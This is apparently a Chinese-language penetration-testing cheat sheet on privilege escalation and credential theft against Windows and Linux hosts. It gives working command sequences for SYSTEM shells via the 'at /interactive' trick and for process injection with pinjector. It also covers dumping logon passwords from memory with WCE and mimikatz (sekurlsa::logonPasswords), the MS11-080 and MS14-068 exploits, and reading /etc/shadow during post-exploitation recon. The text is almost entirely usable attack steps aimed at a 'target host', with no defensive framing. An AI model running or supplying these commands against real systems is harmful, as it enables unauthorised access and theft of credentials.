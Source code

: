 #测试  
at 20:33 /interactive cmd		at 时间，/执行的任务。  
调用了cmd窗口，从窗口敲击的任何命令都是使用系统级进程。  

在窗口中启动taskmgr  
杀掉桌面环境的进程，使用taskmgr来进行开启操作  
explorer.exe		桌面环境进程  

注入进程提权  
使用pinjector.exe  
	注入进程，实现提权  
	
以上只能在windows.xp  2003内进行使用  




/usr/share/windows-resources/wce 拷贝此文件进入目标主机，使用文件来进行抓取在内存中的登录密码  

wce-universal.exe -d username		删除此用户内存中存在的密码  
wce-universal.exe -g 你想设定的密码		用于计算hash值  
wce-universal.exe -w 		查看当前登录的帐号的密码(查看内存中存在的)  

/usr/share/windows-resources/mimikatz 		遇到不会用命令直接输入两个冒号即可出现参考帮助  
privilege::debug		进行系统提权。提升到debug权限。  
sekurlsa::logonPasswords		查看当前用户系统信息。以及内存中存在的密码  
process::list		查看进程  
service::		服务进程  
token::whoami	查看当前用户。  

------------------------分割线--------------------------  
利用漏洞提权  
ms11-080		windows.xp-sp3  2003-sp3  
 (/usr/share/exploitdb/)	exploits/windows/local/18176.py  

ms14-068		域用户  
dcpromo  





icacls c:\windows\*.exe /save perm /T		查找当前系统存在问题的程序或进程。  

linux 下查找有问题的程序或进程  
find / -perm 777 -exec ls -l {} \;  

#配置文件不当来进行获取帐号密码  
/etc/passwd  
/etc/shadow  
whoami   	who -a  
ifconfig -a  
iptables -L -n  
netstat -rn   
uname -a  
ps aux  